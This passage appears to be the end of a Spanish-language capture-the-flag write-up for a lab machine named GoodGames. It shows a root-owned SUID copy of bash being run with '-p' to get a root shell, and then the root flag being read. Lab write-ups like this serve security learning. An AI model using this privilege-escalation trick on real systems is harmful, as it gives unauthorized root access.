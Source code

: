 ## Shell as root && root flag

Ahora la **bash** es **SUID**

```bash
augustus@GoodGames:~$ ls -l
total 1212
-rwsr-xr-x 1 root root     1234376 Jul  6 02:10 bash
-rw-r----- 1 root augustus      33 Jul  5 23:15 user.txt
augustus@GoodGames:~$ 
```

Y nos conectamos 

```bash
augustus@GoodGames:~$ ./bash -p
bash-5.1# whoami
root
bash-5.1#
bash-5.1# cd /root
bash-5.1# cat root.txt 
58456af89668c685b38294159a8016af
bash-5.1# 
```
